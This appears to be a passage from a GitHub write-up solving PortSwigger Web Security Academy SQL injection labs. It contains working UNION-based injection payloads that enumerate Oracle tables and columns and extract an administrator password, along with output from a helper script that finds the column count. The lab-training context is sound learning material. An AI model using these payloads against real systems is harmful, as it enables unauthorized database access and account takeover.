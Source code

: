     ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a6600e9041d095983a6879c00e80017.web-security-academy.net/ --param category --amount 4
    https://0a6600e9041d095983a6879c00e80017.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    [+] Oracle DB 
                    
    ```

2. Checking the docs `all_tables`
    ```
    https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D
    ```

3. Listing tables names:

    ```sql
    ' union select table_name, null from all_tables-- -
    ```

4. Listing columns names:

    ```SQL
    ' union select column_name, null from all_tab_cols where table_name='USERS_OQAAMW'-- -
    ```

5. Finding the password fot the administrator:
    ```sql
    ' union select PASSWORD_LIEFIK, null from USERS_OQAAMW where USERNAME_DQZARO='administrator'-- -
    ```

6. Logging to administrator acc with the password `o5qpgsrouodfkc3q464b`.


# Lab: SQL injection UNION attack, determining the number of columns returned by the query

1. Determine the amount of columns using `null`s:
    ```sql
    ' union select null, null, null-- -
    ```

2. The lab is solved.

# Lab: SQL injection UNION attack, finding a column containing text

1. Determine the amount of columns:
    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0aaf00c00403110e8571e53d003e00e1.web-security-academy.net/ --param category --amount 4
    [+] Amount of columns: 3 
    ```
